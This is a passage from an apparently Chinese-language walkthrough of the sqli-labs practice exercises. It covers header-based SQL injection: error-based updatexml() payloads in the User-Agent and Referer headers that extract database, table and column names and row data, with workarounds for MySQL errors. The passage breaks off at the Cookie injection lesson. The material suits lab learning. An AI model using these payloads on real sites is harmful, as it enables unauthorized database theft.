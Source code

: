 成功爆出数据库名。

`User-Agent: 1',1,updatexml(1,concat(0x5e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)) #`成功爆出表。

![NX9FRx.png](https://s1.ax1x.com/2020/07/03/NX9FRx.png)

`User-Agent: 1',1,updatexml(1,concat(0x5e,(select group_concat(column_name) from information_schema.columns where table_name='uagents'),0x5e),1)) #`成功爆出列名。

![NXCcgP.png](https://s1.ax1x.com/2020/07/03/NXCcgP.png)

但当我们`User-Agent: 1',1,updatexml(1,concat(0x5e,(select group_concat(id,uagent,ip_address) from uagents),0x5e),1)) #`
出现了错误`You can't specify target table '表名' for update in FROM clause`,因为在MYSQL里，不能先select一个表的记录，在按此条件进行更新和删除同一个表的记录，解决办法是，将select得到的结果，再通过中间表select一遍，这样就规避了错误，

这个问题只出现于mysql，mssql和oracle不会出现此问题。

所以payload改为`User-Agent: 1',1,updatexml(1,concat(0x5e,(select concat(id,uagent,ip_address) from (select * from uagents)hack limit 0,1),0x5e),1)) #`,修改limit查询全部内容，

![NXFcg1.png](https://s1.ax1x.com/2020/07/03/NXFcg1.png)

这里没用`group_concat` 是因为会报错`Row 17 was cut by GROUP_CONCAT()`,原来GROUP_CONCAT有个最大长度的限制，超过最大长度就会被截断掉，

![NXF8hj.png](https://s1.ax1x.com/2020/07/03/NXF8hj.png)

1024这就是一般MySQL系统默认的最大长度，如果你的bid串起来大于这个就会出问题.[详情可以看这里](https://blog.csdn.net/weixin_41287692/article/details/82848766)

![NXZb0x.png](https://s1.ax1x.com/2020/07/03/NXZb0x.png)

## ***Less-19 Header Injection- Referer- Error Based- string***

成功登陆后回显了referer的内容。

HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。

输入单引号报错

![NXnMkV.png](https://s1.ax1x.com/2020/07/03/NXnMkV.png)

从报错信息中也可发现可能执行的sql语句。（跟上官注入类似）

`Referer:1',updatexml(1,concat(0x5e,database(),0x5e),1))#`成功爆出数据库

![NXMN0s.png](https://s1.ax1x.com/2020/07/03/NXMN0s.png)

其余步骤类似。

## ***Less-20 Cookie Injection- Error Based- string***

成功登录后
